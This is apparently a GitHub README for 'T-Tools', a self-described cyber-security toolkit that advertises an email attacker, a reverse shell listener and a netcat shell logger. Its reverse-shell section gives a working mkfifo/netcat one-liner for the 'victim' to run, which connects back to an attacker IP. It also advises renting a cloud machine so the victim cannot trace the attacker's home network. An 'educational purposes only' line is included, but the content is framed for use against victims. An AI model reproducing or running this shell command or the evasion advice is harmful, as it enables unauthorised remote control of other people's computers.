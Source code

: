 # T-Tools-advanced--cyber-security 


# What is T-Tools

* T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command.

* And you can use linode, aws or google cloud services to make your cloud machine.

      kali@attacker ~ $ python3 net.py 
      kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <attacker ip> 9999 >/tmp/f  
           
Made with 💖 by THB
